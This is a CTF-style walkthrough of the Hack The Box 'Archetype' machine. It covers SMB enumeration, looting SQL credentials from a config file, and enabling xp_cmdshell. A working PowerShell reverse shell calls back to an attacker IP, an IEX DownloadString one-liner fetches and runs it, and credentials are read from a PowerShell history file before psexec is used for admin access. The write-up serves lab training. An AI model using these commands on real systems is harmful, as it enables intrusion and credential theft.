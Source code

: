 # Archetype Walkthrough

### Requirement

Following packages are required on the attacking machine -

Make sure your system is equipped with `git`, `ncat`, `nmap`, `python3`, `smbclient`, and `ufw`
Secure Auth Corp's Impacket collection https://www.secureauth.com/labs/open-source-tools/impacket/

```
┌──(ronnie㉿LAPTOP-4OEHOBBN)-[~/Desktop/Archetype]

└─$ sudo apt-get python3-pip python3-venv git smbclient ncat nmap, utf
```

Connect to the machine using open vpn:

```
┌──(ronnie㉿LAPTOP-4OEHOBBN)-[~/Desktop/Archetype]
└─$ sudo openvpn /path/to/your/file.ovpn
```

Start up a new terminal to verify if you're connected to the vpn tunnel by pinging the target machine

```
┌──(ronnie㉿LAPTOP-4OEHOBBN)-[~/Desktop/Archetype]
└─$ ping 10.10.10.27
```
--------------------------------------------------------------------------
## Information gathering:

**Reconnaissance** -
```
┌──(ronnie㉿LAPTOP-4OEHOBBN)-[~/Desktop/Archetype]
└─$ nmap -sV -Pn -T4 10.10.10.27
```

You'd see couple of ports exposed, the most promising being 445 (smb) and 1433 (sql server).

We will target port 445 - *Server Message Block*, using `smbclient`

```
┌──(ronnie㉿LAPTOP-4OEHOBBN)-[~/Desktop/Archetype]
└─$ smbclient -L \\10.10.10.27
```

**Getting regular user access** -

Great, there are two available shares with read access:

> IPC$: this hidden share is a special share used for inter-process communication. It doesn’t allow one to access files or directories like other shares, but rather allows one to communicate with processes running on the remote system.

> backups: a normal share with read access. It lacks a comment which means it could contain interesting data if we’re able to connect to it. 

```
┌──(ronnie㉿LAPTOP-4OEHOBBN)-[~/Desktop/Archetype]
└─$ smbclient \\\\10.10.10.27\\backups
```

Go ahead and explore the directory using `ls` and you'll notice a production configuration file `prod.dtsConfig`. Lets transfer that file to our local machine.

```
┌──(ronnie㉿LAPTOP-4OEHOBBN)-[~/Desktop/Archetype]
└─$ get prod.dtsConfig /home/<user>/Desktop/Archetype/secret
```

```
┌──(ronnie㉿LAPTOP-4OEHOBBN)-[~/Desktop/Archetype]
└─$ cat secret
```

--------------------------------------------------------------------------
## Began exploit:

On inspecting the file, you can see the username and password for the user.

We can use this information further, to connect to the *SQL Server*, and for this we’ll be using the `mssqlclient.py` script from the *Impacket toolkit*. 

```
┌──(ronnie㉿LAPTOP-4OEHOBBN)-[~/Desktop/Archetype]
└─$ sudo git clone https://github.com/SecureAuthCorp/impacket.git
```
```
┌──(ronnie㉿LAPTOP-4OEHOBBN)-[~/Desktop/Archetype]
└─$ cd impacket
```
```
┌──(ronnie㉿LAPTOP-4OEHOBBN)-[~/Desktop/Archetype/Impacket]
└─$ sudo pip3 install .
```
```
┌──(ronnie㉿LAPTOP-4OEHOBBN)-[~/Desktop/Archetype/Impacket]
└─$ cd examples
```
```
┌──(ronnie㉿LAPTOP-4OEHOBBN)-[~/Desktop/Archetype/Impacket/examples]
└─$ python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth
```
We insert the password found previously and we're in.
Next up, we run a query to find out if we have the highest privileges:

`SQL> SELECT IS_SRVROLEMEMBER ('sysadmin')`

The output of the query should be 1 (= true), confirming that we have sysadmin privileges.

Now we can enable the `xp_cmdshell`, to spawn a Windows command shell and pass in a string for execution, to gain Remote Command Execution.

`SQL> EXEC sp_configure 'Show Advanced Options', 1;`
`SQL> reconfigure;`
`SQL> sp_configure;`
`SQL> EXEC sp_configure 'xp_cmdshell', 1`
`SQL> reconfigure;`
`SQL> xp_cmdshell "whoami"`

After a bit of research I found we can host a file containing the reverse shell script locally and then get the SQL server to connect to our machine.

Save the following script as `reverse_shell.ps1`. Also make note of the ip address for `$client`. Since we're using *open vpn*, we'd be required to use that ip and port instead.

```
$client = New-Object System.Net.Sockets.TCPClient("10.10.16.19",443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + "# ";
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()};
$client.Close()
```

Open up a new terminal to set up a Python http server to host the reverse shell script:

```
┌──(ronnie㉿LAPTOP-4OEHOBBN)-[~/Desktop/Archetype]
└─$ python3 -m http.server 80
```

Open up another terminal to start a netcat listening session on port 443:

```
┌──(ronnie㉿LAPTOP-4OEHOBBN)-[~/Desktop/Archetype]
└─$ nc -vnlp 443
```

Please note if you have your `ufw` firewall enabled in your VM, you'll need to change the rules to allow incoming requests to ports 80 and 443:

```
┌──(ronnie㉿LAPTOP-4OEHOBBN)-[~/Desktop/Archetype]
└─$ ufw allow from 10.10.10.27 proto tcp to any port 80, 443
```

Heading back to the terminal with sql server, execute the following one-liner:

`SQL> xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.16.19/reverse_shell.ps1\");"`

And head back to the netcat listener to see if the shell spawned. If the script executed successfully, you should be able to see a shell there.

--------------------------------------------------------------------------
## Pwing the user account:

Once you can confirm the you've accessed the shell via user account `sql_svc`, start exploring the directory. 
 
The `user.txt` file containing the user flag is at the `sql_svc` user's desktop, so we just read the file:

`# whoami`
`# cd C:\Users\sql_svc\Desktop`
`# type user.txt`

Copy the hashcode and head over to your htb dashboard to submit it.

--------------------------------------------------------------------------
## Pwing the root account:

In order to get the root flag, we'll need to the root access i.e Administrator alias `nt authority\system`.
 
As this `sql_svc` account is a service account, it's good practice to check for recently accessed files and executed commands. 
To do so in PowerShell, we can insert the command below in our reverse shell:

`# type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

You should be able to see the administrative credentials.

Finally we will use another script from the Impacket package `psexec` located under `Impacket/examples`

```
┌──(ronnie㉿LAPTOP-4OEHOBBN)-[~/Desktop/Archetype/Impacket/examples]
└─$ python3 psexec.py administrator@10.10.10.27
```

Provide the password when prompted, and do a quick `whoami` check to verify the access..

Headover to the Desktop to access the `root.txt` file for root flag. 

`# whoami`
`# cd C:\Users\Administrator\Desktop`
`# type root.txt`

Copy the hash code and submit.
